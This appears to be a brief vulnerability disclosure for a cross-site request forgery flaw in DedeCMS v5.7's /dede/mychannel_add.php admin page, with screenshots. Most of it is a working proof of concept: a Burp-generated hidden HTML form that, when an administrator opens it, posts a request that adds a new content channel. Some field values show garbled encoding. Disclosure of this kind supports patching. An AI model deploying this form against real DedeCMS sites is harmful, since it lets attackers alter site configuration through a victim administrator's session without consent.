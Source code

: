 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/mychannel_add.php
![1](https://github.com/777erp/cms/assets/113673221/367ef326-c293-42e0-a35f-aaf20454f52d)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/mychannel_add.php" method="POST">
      <input type="hidden" name="action" value="add" />
      <input type="hidden" name="id" value="17" />
      <input type="hidden" name="nid" value="ch17" />
      <input type="hidden" name="typename" value="�&#162;&#145;�&#129;&#147;17" />
      <input type="hidden" name="addtable" value="dede&#95;addon17" />
      <input type="hidden" name="issystem" value="0" />
      <input type="hidden" name="issend" value="0" />
      <input type="hidden" name="sendrank" value="0" />
      <input type="hidden" name="usertype" value="" />
      <input type="hidden" name="arcsta" value="&#45;1" />
      <input type="hidden" name="titlename" value="�&#160;&#135;�&#162;&#152;" />
      <input type="hidden" name="needdes" value="1" />
      <input type="hidden" name="needpic" value="1" />
      <input type="hidden" name="dfcid" value="0" />
      <input type="hidden" name="onlyone" value="0" />
      <input type="hidden" name="addcon" value="archives&#95;add&#46;php" />
      <input type="hidden" name="editcon" value="archives&#95;edit&#46;php" />
      <input type="hidden" name="mancon" value="content&#95;list&#46;php" />
      <input type="hidden" name="useraddcon" value="archives&#95;add&#46;php" />
      <input type="hidden" name="usereditcon" value="archives&#95;edit&#46;php" />
      <input type="hidden" name="usermancon" value="content&#95;list&#46;php" />
      <input type="hidden" name="imageField&#46;x" value="35" />
      <input type="hidden" name="imageField&#46;y" value="3" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/777erp/cms/assets/113673221/557297f9-5fcf-4763-a0c9-a335f502529d)


Successed

![3](https://github.com/777erp/cms/assets/113673221/996fa518-ec55-4c7d-9e0f-9cc3f2679c7d)

